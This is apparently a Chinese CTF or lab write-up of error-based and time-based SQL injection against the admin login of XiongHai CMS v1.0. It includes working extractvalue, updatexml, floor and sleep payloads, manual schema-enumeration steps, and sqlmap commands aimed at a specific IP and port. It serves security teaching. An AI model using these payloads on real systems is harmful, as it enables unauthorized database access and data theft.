 ```yaml
---
title: "熊海 CMS v1.0 后台登录存在 SQL 注入"
date: 2024-02-12
description: "管理员登录页面可以在不登录的情况下对 POST 的表单做 SQL 注入，利用语法报错泄露数据库信息"
tags: ["SQL注入","后端漏洞"]
featured_image: ""
# images is optional, but needed for showing Twitter Card
images: []
categories: "sec"
comment: false
draft: false
---
```


这是一个基于熊海 cms 的靶场，并且提示我们存在 post 注入。打开 burp 抓个包，用 burp 目标里面的目录扫描找到了后台 /admin，打开得到管理员登录界面。

有必要说的是，这个登录页面是个弱口令，但是急于用弱口令登录进去就会错过外面这个登录页面的漏洞。

最终我们发现这个登录页面存在 sql 注入，可以在不登录的情况下借助外带的语法报错拿到数据库信息。

## 语法回顾

我们使用 extractvalue() 和 concat() 这两个函数引起报错。

extractvalue(xml_frag,xpath_expr) 是 mysql 的 xml 函数，有两个字符串参数，我们写 extractvalue(1,concat(...)) 就可以了。concat() 就是拼接字符串，我们写一个 0x5c 或者 0x7e 就会引起路径错误，payload 如下。

    1' and extractvalue(1,concat(
        0x5c,
        0x7e,
        (select value from flag_db.flag limit 0,1),
        0x7e
        )) and '1'='1

同样是 xml 函数的 updatexml() 可以替代 extractvalue()，payload 如下。

    1' and updatexml(1,concat(
        0x5c,
        0x7e,
        (select value from flag_db.flag limit 0,1),
        0x7e
    ),1) and '1'='1

在这两个 xml 函数用不了的时候用 floor() 报错也可以，但是写起来会比较麻烦，payload 如下。

    1' and (select 1 from (select count(*),concat(
            (select value from flag_db.flag limit 0,1),
            0x2b,
            floor(rand(0)*2)
        )x from information_schema.tables 
        group by x)a) 
    and '1'='1

上述 payload 的成功效果如下图所示。

![sqli4](/images/sqli1/sqli4-14.png)

![sqli4](/images/sqli1/sqli4-13.png)

![sqli4](/images/sqli1/sqli4-12.png)

## 手工注入

登录页面如下。首先我们输入单引号发现报错，这说明 user 可能存在 post 注入。

![sqli4](/images/sqli1/sqli4-6.png)

![sqli4](/images/sqli1/sqli4-7.png)

考虑到有报错页面但是没有回显点，我们用 extractvalue() 进行注入，旨在引起语法错误。构造如下 payload。

首先爆数据库名称。

    1' and extractvalue(1,concat(0x5c,0x2d2d2d2d2d2d2d,(
        select schema_name from information_schema.schemata 
            limit 0,1
    ),0x2d2d2d2d2d2d2d)) and '1'='1

![sqli4](/images/sqli1/sqli4-9.png)

令 limit 0,1 中的 0 遍历 0~4 可以爆出所有数据库名称后，打开 flag_db 查询表名。

    1' and extractvalue(1,concat(0x5c,0x2d2d2d2d2d2d2d,(
        select table_name from information_schema.tables 
            where table_schema='flag_db'
    ),0x2d2d2d2d2d2d2d)) and '1'='1

![sqli4](/images/sqli1/sqli4-8.png)

然后查询字段。

    1' and extractvalue(1,concat(0x5c,0x2d2d2d2d2d2d2d,(
        select column_name from information_schema.columns 
            where table_schema='flag_db' and table_name='flag'
            limit 0,1
    ),0x2d2d2d2d2d2d2d)) and '1'='1

![sqli4](/images/sqli1/sqli4-10.png)

最终拿到 flag=ywaq{okjzxdHdsa}。

    1' and extractvalue(1,concat(0x5c,0x2d2d2d2d2d2d2d,(
        select value from flag_db.flag 
            limit 0,1
    ),0x2d2d2d2d2d2d2d)) and '1'='1

![sqli4](/images/sqli1/sqli4-11.png)

## 用 sqlmap 扫描

使用的 sqlmap 语句如下。--forms 是对登录框的表单进行扫描，如果这个 forms 指令行不通，可以考虑抓包到 txt 用 -r 扫描。

    sqlmap -u http://111.9.41.91:53008/admin/?r=index  --forms --batch --dbs

--dbs 的意思是列出所有数据库名称

    sqlmap -u http://111.9.41.91:53008/admin/?r=index  --forms --batch -D flag_db --dump

-D 是指定数据库，--dump 是以文件形式导出。

![sqli4](/images/sqli1/sqli4-0.png)

![sqli4](/images/sqli1/sqli4-1.png)

![sqli4](/images/sqli1/sqli4-2.png)

## 其他发现

这里 sqlmap 提示存在时间盲注。我们用子查询输入

    ' and (select qwe from (select(sleep(10)))qwe) -- qwe

可以看到延迟有效。

![sqli4](/images/sqli1/sqli4-5.png)

但是我们发现这里的 sleep 必须用上述语句提高优先级，如果只输入 `' and sleep(10) -- qwe` 则无效。
